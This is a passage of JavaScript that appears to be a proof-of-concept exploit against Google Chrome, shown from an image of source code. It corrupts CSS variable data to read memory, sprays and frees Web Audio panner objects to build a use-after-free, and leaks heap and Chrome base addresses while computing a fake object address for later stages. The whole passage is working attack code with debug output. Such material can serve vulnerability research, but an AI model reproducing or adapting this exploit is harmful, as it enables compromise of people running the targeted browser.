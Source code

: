 ```html
        })
      });
    }

    async function leak() {
      console.log("continuing...");
      let div0 = document.getElementById('div0');
      let rs = getComputedStyle(div0);
      let CSSLeak = rs.getPropertyValue(kTargetCSSVar)
        .substring(0x15000 - 8);
      console.log(CSSLeak.length.toString(16));
      let memoryPattern = /\x02\x00\x00\x00\x14\x04\x00\x01(\d+\.\d+)/g;
      CSSVars = [...CSSLeak.matchAll(memoryPattern)];
      console.log(CSSVars);
      if (CSSVars.length < kSprayPannerCount) {
        console.log("WARN: insufficient CSSVars found, found vs min:",
          CSSVars.length, "vs", kSprayPannerCount);
        return;
      }
      console.log("corrupted with success");

      for (let i = 0; i < kSprayPannerCount; i++) {
        panners.push(audioCtx.createPanner());
      }
      for (let i = 0; i < kSprayPannerCount; i++) {
        // console.log(`removing --b${CSSVars[i][1]}`);
        // i really idk why, but i need add the ref_count_ and remove the
        // prop to trigger free
        rs.getPropertyValue(`--b${CSSVars[i][1]}`);
        div0.style.removeProperty(`--b${CSSVars[i][1]}`);
      }
      gc(); gc(); await sleep(1000);

      for (let i = 0; i < panners.length; i++) {
        panners[i].panningModel = 'HRTF';
      }

      // free two panners after target CSSVariableData
      panners[kSprayPannerCount - 2].panningModel = 'equalpower';
      panners[kSprayPannerCount - 1].panningModel = 'equalpower';
      await sleep(1000);
      let hrtfLeak = rs.getPropertyValue(kTargetCSSVar)
        .substring(0x15000 - 8);
      for (let i = 0; i < CSSVars.length; i++) {
        let leak = hrtfLeak.substring(CSSVars[i].index, CSSVars[i].index + 8);
        console.log("0x" + u64(leak).toString(16),
          "0x" + CSSVars[i].index.toString(16));
      }
      heapAddr = (u64(hrtfLeak.substring(CSSVars[8].index + 8,
        CSSVars[8].index + 8 + 8)) & 0xfffffffffff00000n) + 0xc000n;
      fakePannerAddr = heapAddr - 0x959000n + BigInt(CSSVars[8].index);
      chromeBase = u64(hrtfLeak.substring(CSSVars[8].index,
        CSSVars[8].index + 8));
      chromeBase -= kHRTFPannerVtableOffset;
      console.log("heap leak: 0x" + heapAddr.toString(16),
        CSSVars[1].index.toString(16));
      console.log("chrome leak: 0x" + chromeBase.toString(16),
        CSSVars[8].index.toString(16));
      console.log("fakePannerAddr: 0x" + fakePannerAddr.toString(16));
      // search '13.1CCCCC' anon:partition_alloc ; x/gx addr+0x2000-8
      console.log("CSSVarData UAF: 0x" + (heapAddr - 0x982000n)
        .toString(16));
      console.log("hrtfLeak.length: 0x" + hrtfLeak.length.toString(16));
```